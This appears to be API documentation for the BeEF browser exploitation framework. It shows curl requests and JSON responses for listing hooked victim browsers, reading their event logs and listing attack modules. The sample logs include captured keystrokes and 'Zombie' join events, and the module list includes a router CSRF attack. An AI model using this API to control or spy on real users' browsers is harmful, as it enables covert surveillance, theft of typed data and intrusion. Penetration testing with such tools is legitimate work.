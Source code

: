 ## Introduction
From version 0.4.3.3 BeEF exposes a RESTful API. All the exchanged data uses the JSON format, for both HTTP responses and HTTP POST requests that have a body. In order to use the API, a _token_ parameter must be always added to requests, otherwise a 401 error (Not Authorized) is returned.

The pseudo-random token is newly generated every time BeEF starts, using `BeEF::Core::Crypto::api_token` 
and is then added to the _BeEF::Configuration_ object. It can be retrieved at any time via ruby using `BeEF::Core::Configuration.instance.get('beef.api_token')`

When BeEF starts, look at the console output for 
`[16:02:47][*] RESTful API key: 320f3cf4da7bf0df7566a517c5db796e73a23f47`. That will be the value of the _token_ parameter
## Hooked Browsers
**Handler** => /api/hooks
The _hooks_ handler gives information about the hooked browsers, both online and offline.

**Request** => GET /api/hooks

`curl http://beefserver.com:3000/api/hooks?token=320f3cf4da7bf0df7566a517c5db796e73a23f47`

**Response**

```json
{
    "hooked-browsers": {
        "online": {
            "0": {
                "name": "FF",
                "version": "10",
                "os": "Intel Mac OS X 10.7",
                "platform": "MacIntel",
                "session": "nBK3BGBILYD0bNMC1IH299oDbZXNNXKfwMEoDwajmItAHhhhe8LLnEPvO3wFjg1rO4PzXsBbUAK1V0gk",
                "ip": "127.0.0.1",
                "domain": "127.0.0.1",
                "port": "3000",
                "page_uri": "http://127.0.0.1:3000/demos/basic.html"
            }
        },
        "offline": {
            "0": {
                "name": "C",
                "version": "17",
                "os": "Macintosh",
                "platform": "MacIntel",
                "session": "26bxiMKoFfOeBgcvIV84qeOsEULKQIEYDH4djMbMPeoAZU4yySMIlJJ7GrAMwuMa0eX9wCKk24KOsCoT",
                "ip": "127.0.0.1",
                "domain": "127.0.0.1",
                "port": "3000",
                "page_uri": "http://127.0.0.1:3000/demos/basic.html"
}}}}
```
## Logs
**Handler** => /api/logs
The _logs_ handler gives information about hooked browser logs, both global and relative ones.

**Request** => GET /api/logs

`curl http://beefserver.com:3000/api/logs?token=320f3cf4da7bf0df7566a517c5db796e73a23f47`

**Response (snip)**

```json
{
    "logs_count": 8,
    "logs": [
        {
            "id": 1,
            "date": "2012-03-20T16:14:11+01:00",
            "event": "127.0.0.1 just joined the horde from the domain: 127.0.0.1:3000",
            "type": "Zombie"
        },
        {
            "id": 8,
            "date": "2012-03-20T16:18:27+01:00",
            "event": "19.092s - [Focus] Browser has regained focus.",
            "type": "Event"
        }
    ]
}
```

In order to retrieve relative hooked browser logs, so events that are logged for a specific browser, we must specify the unique session id that identified the browser in the BeEF framework. This information can be found from the previous /api/hooks call: the _session_ key value.

**Request** => GET /api/logs/:session

`curl http://beefserver.com:3000/api/logs/nBK3BGBILYD0bNMC1IH299oDbZXNNXKfwMEoDwajmItAHhhhe8LLnEPvO3wFjg1rO4PzXsBbUAK1V0gk?token=320f3cf4da7bf0df7566a517c5db796e73a23f47`

**Response (snip)**

```json
{
    "logs_count": 13,
    "logs": [
        {
            "id": 1,
            "date": "2012-03-20T16:14:11+01:00",
            "event": "127.0.0.1 just joined the horde from the domain: 127.0.0.1:3000",
            "type": "Zombie"
        },
        {
            "id": 16,
            "date": "2012-03-20T16:40:18+01:00",
            "event": "6.071s - [User Typed] "an" > input#imptxt(Important Text)",
            "type": "Event"
        },
        {
            "id": 17,
            "date": "2012-03-20T16:40:19+01:00",
            "event": "7.086s - [User Typed] "tisnatc" > input#imptxt(Important Text)",
            "type": "Event"
        },
        {
            "id": 18,
            "date": "2012-03-20T16:40:20+01:00",
            "event": "8.099s - [User Typed] "hor" > input#imptxt(Important Text)",
            "type": "Event"
        }
    ]
}
```
## Command Modules
**Handler** => /api/modules
The _modules_ handler do multiple things:
**list all available and enabled command modules**
**Request** => GET /api/modules

`curl http://beefserver.com:3000/api/modules?token=320f3cf4da7bf0df7566a517c5db796e73a23f47`

**Response (snip)**

```json
{
    "0": {
        "id": 1,
        "name": "Linksys WRT54G CSRF",
        "category": "Router"
    },
    "65": {
        "id": 69,
        "name": "Redirect Browser (Rickroll)",
        "category": "Browser"
    },
    "66": {
        "id": 70,
        "name": "Replace Videos",
        "category": "Browser"
    },
    "67": {
        "id": 71,
        "name": "Create Prompt Dialog",
        "category": "Browser"
    }
}
```
**return information about a specified module (description, category, input options)**
**Request** => GET /api/modules/:module_id

`curl http://beefserver.com:3000/api/modules/71?token=320f3cf4da7bf0df7566a517c5db796e73a23f47`

**Response**

```json
{
    "name": "prompt_dialog",
    "description": "Sends a prompt dialog to the hooked browser.",
    "category": "Browser",
    "options": [
        {
            "name": "question",
            "description": "Prompt text",
            "ui_label": "Prompt text"
        }
    ]
}
```
* send a command module to the specified hooked browser, (POST /api/modules/:session/:module_id)
* return information about the specific command module previously executed, (GET /api/modules/:session/:mod_id/:cmd_id)